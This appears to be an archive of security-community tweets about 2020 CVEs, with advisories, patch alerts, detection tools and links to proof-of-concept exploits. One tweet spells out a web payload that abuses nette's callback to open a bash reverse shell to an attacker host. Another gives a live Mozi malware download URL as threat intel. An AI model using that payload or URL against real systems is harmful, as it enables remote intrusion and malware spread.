**https://twitter.com/certbund/status/1316974664120492033 _at Fri Oct 16 05:30:02 +0000 2020_**
<blockquote>
Am 13.10. hat Microsoft Sicherheitsupdates für kritische #RCE #Schwachstellen (CVE-2020-16951, -16952) in #SharePoint 2013-2019 veröffentlicht.
#PoC #Exploit Code ist bereits öffentlich verfügbar.
Aktuell sind mindestens 600 SharePoint-Server in Deutschland verwundbar. #PATCHNOW! https://t.co/9tTuXR0SoY
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>29</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1316905632587501569 _at Fri Oct 16 00:55:44 +0000 2020_**
<blockquote>
GitHub - 0neb1n/CVE-2020-16947: PoC of CVE-2020-16947 (Microsoft Outlook RCE vulnerablility) - https://t.co/lxlEQcBBTn
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---
# 0neb1n
**https://twitter.com/0neb1n/status/1316755683065307136 _at Thu Oct 15 14:59:53 +0000 2020_**
<blockquote>
https://t.co/KnBoYPhfcY
writeup and poc of cve-2020-16947 (outlook rce vuln)
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>161</code></td>
<td>Favorites: <code>379</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1316688725800374279 _at Thu Oct 15 10:33:49 +0000 2020_**
<blockquote>
PoC published for CVE-2020-16952, a post-auth Microsoft SharePoint RCE

https://t.co/3P4UaMqt36 https://t.co/v6LUl0I5rx
</blockquote>

* https://srcincite.io/advisories/src-2020-0022/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---
# ddouhine
**https://twitter.com/ddouhine/status/1316661921974833152 _at Thu Oct 15 08:47:19 +0000 2020_**
<blockquote>
SharePoint admins: PATCH !
Upcoming Microsoft SharePoint Server-Side Include and ViewState RCE (CVE-2020-16952) exploit in #metasploit

@msftsecurity you can update your advisory

Vulnerability found by @steventseeley and module by @wvuuuuuuuuuuuuu 

https://t.co/MOsRPDSHu6 https://t.co/EOKPqeUfBT
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/14265

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# benreardon
**https://twitter.com/benreardon/status/1316528019062710272 _at Wed Oct 14 23:55:14 +0000 2020_**
<blockquote>
Just released a simple Zeek package that nicely detects CVE-2020-16898 AKA "Bad Neighbor” (Windows TCP/IP Remote Code Execution vuln) https://t.co/QZiuvhPH5k @corelight_inc @ynadji
</blockquote>

* https://github.com/corelight/CVE-2020-16898

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1316497085320097792 _at Wed Oct 14 21:52:19 +0000 2020_**
<blockquote>
Looking at patch diff of tcpip.sys, it seems "Ipv6pHandleRouterAdvertisement()" function which is called by "Icmpv6ReceiveDatagrams()" function is guilty for Microsoft Windows ICMPv6 router advertisement RCE vulnerability (CVE-2020-16898): https://t.co/9HLISvpHil
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>317</code></td>
</tr></table>

---
# thracky
**https://twitter.com/thracky/status/1316461143754510337 _at Wed Oct 14 19:29:29 +0000 2020_**
<blockquote>
Figured out CVE-2020-16898 finally. Definitely a biiiiig caveat to exploitation that nobody is talking about (and I won't mention it at the moment, sorry) https://t.co/7zwdrL1vml
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---
# 0xdea
**https://twitter.com/0xdea/status/1316443774743121920 _at Wed Oct 14 18:20:28 +0000 2020_**
<blockquote>
Microsoft is on fire lately 🔥 

CVE-2020-16947 | Microsoft Outlook Remote Code Execution Vulnerability

https://t.co/4I5ZnrNToP
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16947

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---
# chybeta
**https://twitter.com/chybeta/status/1316416189527068672 _at Wed Oct 14 16:30:52 +0000 2020_**
<blockquote>
CVE-2020-15227 PHP framework nette callback RCE

POC: /nette.micro?callback=shell_exec&amp;cmd=bash%20-i%20&gt;&amp;%20/dev/tcp/'+lhost+'/'+lport+'0&gt;&amp;1

https://t.co/M4oEFOYZva https://t.co/TH5Iu9lFDP
</blockquote>

* https://t.zsxq.com/zn2BQZr

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>132</code></td>
<td>Favorites: <code>278</code></td>
</tr></table>

---
# theori_io
**https://twitter.com/theori_io/status/1316390869537153025 _at Wed Oct 14 14:50:15 +0000 2020_**
<blockquote>
Researchers at Theori have successfully confirmed the CVE-2020-16898 vulnerability, dubbed as Bad Neighbor, by demonstrating a remote crash of Windows with BSOD. Be aware of those packets! We are working to craft an RCE exploit, though it looks tough ;)

https://t.co/AfRYs0g4iD
</blockquote>

* https://www.youtube.com/watch?v=TjTAYarKDJQ

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---
# Kevin2600
**https://twitter.com/Kevin2600/status/1316380576593571840 _at Wed Oct 14 14:09:21 +0000 2020_**
<blockquote>
There was CVE-2020-16142 for Benz and CVE-2017-9212 for BMW. Now I present you, Audi. Because why not 😂 https://t.co/JnkGeTgw9x https://t.co/aQQx6hhh1h
</blockquote>

* https://tiger-team-1337.blogspot.com/2020/10/audi-a7-2014-mmi-mishandles-format.html

<table><tr>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>254</code></td>
<td>Favorites: <code>678</code></td>
</tr></table>

---
# H_Miser
**https://twitter.com/H_Miser/status/1316288911040274437 _at Wed Oct 14 08:05:06 +0000 2020_**
<blockquote>
Threat level: very préoccupé

CVE-2020-16947 - Microsoft Outlook RCE Vulnerability” allows attackers to send specially crafted emails that can execute commands when opened in the Microsoft Outlook software. This attack also works when an email is viewed in the preview pane. https://t.co/P9ldLFkosM
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>126</code></td>
<td>Favorites: <code>200</code></td>
</tr></table>

---
# blackorbird
**https://twitter.com/blackorbird/status/1316217774125924352 _at Wed Oct 14 03:22:26 +0000 2020_**
<blockquote>
CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability
Vulnerability Details:
https://t.co/iAX5FiFajJ
Update:
https://t.co/TKrrUk4iQB https://t.co/j33DMv59eV
</blockquote>

* https://www.mcafee.com/blogs/other-blogs/mcafee-labs/cve-2020-16898-bad-neighbor/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---
# h0mbre_
**https://twitter.com/h0mbre_/status/1316171459446726656 _at Wed Oct 14 00:18:23 +0000 2020_**
<blockquote>
CVE-2020-12928, Privilege Escalation in AMD Ryzen Master Overclocking Utility Driver AMDRyzenMaster.sys exploit proof-of-concept. Thanks to everyone mentioned for the help! https://t.co/rmIXieOOvC
</blockquote>

* https://h0mbre.github.io/RyzenMaster_CVE/

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>255</code></td>
<td>Favorites: <code>631</code></td>
</tr></table>

---
# US_CYBERCOM
**https://twitter.com/US_CYBERCOM/status/1316150332498608128 _at Tue Oct 13 22:54:26 +0000 2020_**
<blockquote>
Update your Microsoft software now so your system isn't exploited: CVE-2020-16898 in particular should be patched or mitigated immediately, as vulnerable systems could be compromised remotely.
</blockquote>

<table><tr>
<td>Quotes: <code>26</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>284</code></td>
<td>Favorites: <code>368</code></td>
</tr></table>

---
# ollieatnccgroup
**https://twitter.com/ollieatnccgroup/status/1316109559526838275 _at Tue Oct 13 20:12:25 +0000 2020_**
<blockquote>
CVE-2020-16898 (Windows TCP/IP RCE) is beaten by CVE-2020-16952 (SharePoint post auth file inclusion leading to RCE). CVE-2020-16952 has an exploit out and when combined with password spraying/phishing for creds s a threat right now - https://t.co/IZbbn8aB4o
</blockquote>

* https://www.reddit.com/r/blueteamsec/comments/jal83d/cve202016952_microsoft_sharepoint_server/

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>153</code></td>
<td>Favorites: <code>320</code></td>
</tr></table>

---
# jonasLyk
**https://twitter.com/jonasLyk/status/1316104870987010048 _at Tue Oct 13 19:53:47 +0000 2020_**
<blockquote>
CVE-2020-16938 - aka bits please!
So...recent update changed the permissions on partitions and volume device objects, granting everybody read access.
This means that by opening the device directly you can read the raw data without any privs.
7zip parses NTFS so super for POC https://t.co/JXBTmcEIxQ
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>39</code></td>
<td>Replies: <code>20</code></td>
<td>Retweets: <code>499</code></td>
<td>Favorites: <code>1116</code></td>
</tr></table>

---
# circl_lu
**https://twitter.com/circl_lu/status/1316096472375603202 _at Tue Oct 13 19:20:25 +0000 2020_**
<blockquote>
"CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability"

"A remote code execution vulnerability exists when the Windows TCP/IP stack improperly handles ICMPv6 Router Advertisement packets. "

https://t.co/bC1M9eOu2o
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---
# steventseeley
**https://twitter.com/steventseeley/status/1316084624553017345 _at Tue Oct 13 18:33:20 +0000 2020_**
<blockquote>
Microsoft SharePoint Server DataFormWebPart CreateChildControls Server-Side Include Remote Code Execution Vulnerability

CVE: CVE-2020-16952
Advisory: https://t.co/ArJrenuRR5
Technical analysis + PoC exploit: https://t.co/sKCiTY1Ver
</blockquote>

* https://srcincite.io/advisories/src-2020-0022/
* https://srcincite.io/pocs/cve-2020-16952.py.txt

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>227</code></td>
<td>Favorites: <code>402</code></td>
</tr></table>

---
# 0xdea
**https://twitter.com/0xdea/status/1316082539858190341 _at Tue Oct 13 18:25:03 +0000 2020_**
<blockquote>
CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability 😱

https://t.co/0r0s1oqTDg
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898

<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>226</code></td>
<td>Favorites: <code>434</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1316068580585340931 _at Tue Oct 13 17:29:35 +0000 2020_**
<blockquote>
The Microsoft October Patch Tuesday security updates are out

-This month we have fixes for 87 vulnerabilities
-21 are RCEs
-CVE-2020-16898 is probably the worst, an RCE in the Windows TCP/IP stack with a 9.8/10 CVSS score

https://t.co/EQUMZedSLF https://t.co/geocZqAhDE
</blockquote>

* https://www.zdnet.com/article/microsoft-october-2020-patch-tuesday-fixes-87-vulnerabilities/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>145</code></td>
</tr></table>

---
# spovolny
**https://twitter.com/spovolny/status/1316063618161504256 _at Tue Oct 13 17:09:52 +0000 2020_**
<blockquote>
#BadNeighbor is here! This is what we nicknamed the Microsoft Windows critical and wormable RCE vuln, CVE-2020-16898. McAfee ATR has released brief analysis and a Suricata rule for those unable to patch. 

https://t.co/XaocOyIv1t
https://t.co/Zo8PEKUEkz

#atr #badneighbor #mcafee
</blockquote>

* https://www.mcafee.com/blogs/other-blogs/mcafee-labs/cve-2020-16898-bad-neighbor
* https://github.com/advanced-threat-research/CVE-2020-16898

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>143</code></td>
<td>Favorites: <code>218</code></td>
</tr></table>

---
# EyalItkin
**https://twitter.com/EyalItkin/status/1315655528752787457 _at Mon Oct 12 14:08:16 +0000 2020_**
<blockquote>
Thanks to the help from @Horgh_rce, we can now confirm that we were able to attribute another Windows LPE exploit to Volodya — CVE-2017-0056. This brings the overall number of exploits we attributed to Volodya to 12. https://t.co/WRVULMLeOo
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1314958662952157184 _at Sat Oct 10 15:59:10 +0000 2020_**
<blockquote>
CVE-2020-14386: Privilege Escalation Vulnerability in the Linux kernel.

Bug described as a "simple arithmetic security issue"

Write-up: https://t.co/3iTUKjNcuh

POC: https://t.co/9NV9qTy4q5 https://t.co/NQBy4bNwQn
</blockquote>

* https://unit42.paloaltonetworks.com/cve-2020-14386/
* https://www.openwall.com/lists/oss-security/2020/09/03/3

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>100</code></td>
<td>Favorites: <code>214</code></td>
</tr></table>

---
# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1313598440719355904 _at Tue Oct 06 21:54:08 +0000 2020_**
<blockquote>
We’re seeing more activity leveraging the CVE-2020-1472 exploit (ZeroLogon). A new campaign shrewdly poses as software updates that connect to known CHIMBORAZO (TA505) C2 infrastructure. The fake updates lead to UAC bypass and use of wscript.exe to run malicious scripts.
</blockquote>

<table><tr>
<td>Quotes: <code>28</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>456</code></td>
<td>Favorites: <code>767</code></td>
</tr></table>

---
# justinsteven
**https://twitter.com/justinsteven/status/1312152915344195584 _at Fri Oct 02 22:10:08 +0000 2020_**
<blockquote>
Microsoft Visual Studio Code seems to have botched the fix for CVE-2020-16881, a "remote code execution" vulnerability regarding "malicious package.json files". The patch can be trivially bypassed.  A thread 🧵
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>188</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1310992105628721153 _at Tue Sep 29 17:17:29 +0000 2020_**
<blockquote>
Two different RCE bugs in #IBM #WebSphere are detailed by @zebasquared in his latest blog. Read the root cause and see video demos of CVE-2020-4464 and -4448 at https://t.co/zxPFGoFlFZ
</blockquote>

* https://bit.ly/33eQK2S

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>111</code></td>
<td>Favorites: <code>194</code></td>
</tr></table>

---
# GossiTheDog
**https://twitter.com/GossiTheDog/status/1309901911869587463 _at Sat Sep 26 17:05:27 +0000 2020_**
<blockquote>
I have detected in the wild exploitation of CVE-2020-1472, aka ZeroLogon, in my honeypot.  This is an escalation in the threat landscape, as it allows RCE and credential dumping. https://t.co/yh8tjD3vC7
</blockquote>

* https://doublepulsar.com/in-the-wild-exploitation-of-zerologon-detected-over-the-internet-on-honeypot-f61e2700215b

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>240</code></td>
<td>Favorites: <code>493</code></td>
</tr></table>

---
# sleepya_
**https://twitter.com/sleepya_/status/1309518569277853697 _at Fri Sep 25 15:42:11 +0000 2020_**
<blockquote>
Exploit writeup of #SIGRed (CVE-2020-1350) #RCE on Windows 2012/2016/2019 https://t.co/fgv5vjul1q
</blockquote>

* https://medium.com/@datafarm.cybersecurity/exploiting-sigred-cve-2020-1350-on-windows-server-2012-2016-2019-80dd88594228

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>134</code></td>
<td>Favorites: <code>239</code></td>
</tr></table>

---
# DanyL931
**https://twitter.com/DanyL931/status/1309158974399356932 _at Thu Sep 24 15:53:17 +0000 2020_**
<blockquote>
.@pimskeks and I are releasing c0ntextomy, an RCE exploit based on CVE-2020-9992 (patched in iOS 14 and Xcode 12 last week), alongside a writeup and a basic post-exploitation toolkit.

github repo:
https://t.co/uopFh8mdUx

@zLabsProject blog post:
https://t.co/3nJkgEYhig
</blockquote>

* https://github.com/c0ntextomy/c0ntextomy
* https://blog.zimperium.com/c0ntextomy-lets-debug-together-cve-2020-9992/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>209</code></td>
</tr></table>

---
# gweeperx
**https://twitter.com/gweeperx/status/1308320723711275008 _at Tue Sep 22 08:22:22 +0000 2020_**
<blockquote>
Exploitation of IBM QRadar Wincollect Escalation of Privilege (user-&gt;system via arbitrary delete/CVE-2020-4486) and CVE-2020-4485 .

#IBM #Qradar #WinCollect #0day #RedyOpsLabs #infosec #redteam #blueteam #cybersecurity #CVE #exploit #informationsecurity

https://t.co/cyt8af4UUF
</blockquote>

* https://labs.redyops.com/index.php/2020/09/11/ibm-qradar-wincollect-escalation-of-privileges-cve-2020-4485-cve-2020-4486/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>96</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---
# jq0904
**https://twitter.com/jq0904/status/1307196472597737472 _at Sat Sep 19 05:55:00 +0000 2020_**
<blockquote>
A few days ago I analyzed an ITW IE JScript UAF 1day exploit, it had been patched in April 2020. I think it might be CVE-2020-0968 and here is a poc of it: https://t.co/gR1rZax6lg
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>137</code></td>
</tr></table>

---
# gentilkiwi
**https://twitter.com/gentilkiwi/status/1306178689630076929 _at Wed Sep 16 10:30:41 +0000 2020_**
<blockquote>
A new #mimikatz 🥝release with #zerologon / CVE-2020-1472 detection, exploit, DCSync support and a lots of love inside ❤️

It now uses direct RPC call (fast and supports unauthenticated on Windows)

&gt; https://t.co/Wzb5GAfWfd

Thank you: @SecuraBV https://t.co/s7LRRLPRTP
</blockquote>

* https://github.com/gentilkiwi/mimikatz/releases

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>31</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>568</code></td>
<td>Favorites: <code>983</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1305798762623795202 _at Tue Sep 15 09:21:00 +0000 2020_**
<blockquote>
PoC released for CVE-2020-16875, an RCE in Microsoft Exchange servers, patched last week

https://t.co/OLXCtHd8h7 https://t.co/1B9QVohFxt
</blockquote>

* https://srcincite.io/advisories/src-2020-0019/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---
# yoshiat
**https://twitter.com/yoshiat/status/1305712616732422144 _at Tue Sep 15 03:38:41 +0000 2020_**
<blockquote>
Hard work gets paid off. #gVisor successfully protected #GKE users from CVE-2020-14386. This is the first case GKE Sandbox after going in production preventing attackers from leveraging a vulnerability in the Linux kernel for container escape to get root privileges. (1/3) https://t.co/Ld2JtG0wZ8
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>114</code></td>
<td>Favorites: <code>393</code></td>
</tr></table>

---
# _CPResearch_
**https://twitter.com/_CPResearch_/status/1305499777317171201 _at Mon Sep 14 13:32:56 +0000 2020_**
<blockquote>
[CPR-Zero] CVE-2020-1310 (Windows 8.1/10 Kernel): Use-After-Free in win32k.sys triggered from Desktop Window Manager
https://t.co/obT9tkAclY
</blockquote>

* https://cpr-zero.checkpoint.com/vulns/cprid-2155/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---
# ptswarm
**https://twitter.com/ptswarm/status/1305479737234599941 _at Mon Sep 14 12:13:18 +0000 2020_**
<blockquote>
We have reproduced the CVE-2020-1472 #zerologon vulnerability! It's an unauth RCE for Domain Controllers. https://t.co/qFe45O7WPR
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>206</code></td>
<td>Favorites: <code>457</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1305185204198277120 _at Sun Sep 13 16:42:56 +0000 2020_**
<blockquote>
Here's a PoC for the recently patched Microsoft Exchange Server remote code execution vulnerability (CVE-2020-16875).

CVSS Score: 8.4
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---
# cyber_advising
**https://twitter.com/cyber_advising/status/1305146341992140803 _at Sun Sep 13 14:08:31 +0000 2020_**
<blockquote>
CVE-2020-16875: Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability

PoC
https://t.co/yjvJlbmchI https://t.co/V4HbRHEmZY
</blockquote>

* https://srcincite.io/pocs/cve-2020-16875.py.txt

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>108</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1304848932334305281 _at Sat Sep 12 18:26:43 +0000 2020_**
<blockquote>
Active #DDoS malware payload detected:
http://27.6.200.234:33258/Mozi.m 

VirusTotal URL detections: 0/79 (https://t.co/4V8jKoSFLL)

Exploit attempt source IP: 27.6.200.234 (🇮🇳)

Target: Huawei router RCE vulnerability CVE-2017-17215 (https://t.co/ZRIgVjv1yq) #threatintel https://t.co/dngfIU362X
</blockquote>

* https://www.virustotal.com/gui/url/26d5a4518ff448a8ff480612c1dbf781d29461e5707e278b69ad3a6eb9d1f601/detection
* https://nvd.nist.gov/vuln/detail/CVE-2017-17215

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# steventseeley
**https://twitter.com/steventseeley/status/1304095793809371137 _at Thu Sep 10 16:34:00 +0000 2020_**
<blockquote>
Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability (CVE-2020-16875)

Advisory: https://t.co/UvvCkGGOEA
poc (http): https://t.co/mGah1PBcAM
poc (ps-remoting): https://t.co/ziVbNP3jXN
</blockquote>

* https://srcincite.io/advisories/src-2020-0019/
* https://srcincite.io/pocs/cve-2020-16875.py.txt
* https://srcincite.io/pocs/cve-2020-16875.ps1.txt

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>221</code></td>
<td>Favorites: <code>367</code></td>
</tr></table>

---
# ptswarm
**https://twitter.com/ptswarm/status/1303734833273884685 _at Wed Sep 09 16:39:41 +0000 2020_**
<blockquote>
A swarm of Palo Alto PAN-OS CVE-s is here:

1⃣ Post-Auth RCE (CVE-2020-2037)
2⃣ Post-Auth RCE (CVE-2020-2038)
3⃣ Unauth DoS (CVE-2020-2039)
4⃣ Cross-Site Scripting (CVE-2020-2036)

Attributed to: Mikhail Klyuchnikov &amp; Nikita Abramov

Advisory: https://t.co/195rPrGvlY https://t.co/6WxGHVP7fB
</blockquote>

* https://security.paloaltonetworks.com/?q=2020-09-09

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>156</code></td>
<td>Favorites: <code>267</code></td>
</tr></table>

---
# steventseeley
**https://twitter.com/steventseeley/status/1303454166820556800 _at Tue Sep 08 22:04:25 +0000 2020_**
<blockquote>
So CVE-2020-1523 and CVE-2020-1440 are actually powerful SSRF bugs and not just result in "tampering". Likewise CVE-2020-16875 is certainly NOT a memory corruption and I have a full working RCE exploit.

https://t.co/sAcdmv1QqD
https://t.co/h2f0ZcaHV6
https://t.co/JHegDlI9pW
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-1523
* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-1440
* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>256</code></td>
</tr></table>

---
# _Icewall
**https://twitter.com/_Icewall/status/1303431585878941697 _at Tue Sep 08 20:34:41 +0000 2020_**
<blockquote>
My feed for this patch Tuesday:

CVE-2020-1115 - Microsoft Windows 10 CLFS.sys ValidateRegionBlocks privilege escalation vulnerability

Advisory : https://t.co/GNDF4Uh67P
</blockquote>

* https://talosintelligence.com/vulnerability_reports/TALOS-2020-1098

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1303426162429890560 _at Tue Sep 08 20:13:08 +0000 2020_**
<blockquote>
CVE-2020-1013: Windows Local Privilege Escalation (LPE) with PoC https://t.co/sJNcpiqT4i
</blockquote>

* https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1303398192793477124 _at Tue Sep 08 18:21:59 +0000 2020_**
<blockquote>
4 more RCE Vulnerabilities in Microsoft September patch Tuesday:

Windows Camera Codec Pack:
CVE-2020-0997

Windows Codecs Library:
CVE-2020-1129

Jet Database Engine:
CVE-2020-1039
CVE-2020-1074
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---
# VK_Intel
**https://twitter.com/VK_Intel/status/1303394577177620485 _at Tue Sep 08 18:07:37 +0000 2020_**
<blockquote>
2020-09-08:🔥👿#Dridex Loader Discovery🏦
Internals -&gt; ASLR

⚙️Module ("mod-*"):
🧨[*] "cve-2015-0057 (mod5)"
🦠[*] "TrendMicro (mod9)"
🥅[*] "NetChecker (mod10)"

"uacme" Reference as UAC bypass | +socks ApLib

Logging Path:
C:\0\ACTION.log

+"dmod" report
h/t @James_inthe_box https://t.co/cvIOoX12ZP
</blockquote>

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---
# kmkz_security
**https://twitter.com/kmkz_security/status/1303242252827987970 _at Tue Sep 08 08:02:20 +0000 2020_**
<blockquote>
CVE-2019-1458 LPE PoC + full writeup with a very interesting patch diffing approach 👌 https://t.co/QyRvp17zMU
</blockquote>

* https://github.com/piotrflorczyk/cve-2019-1458_POC

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1300978679518867457 _at Wed Sep 02 02:07:42 +0000 2020_**
<blockquote>
CVE-2019-17026 (Firefox JIT bug) 

No sandbox escape included

Proof of Concept
https://t.co/nmV6FS1tJD https://t.co/RCIS4SYHTh
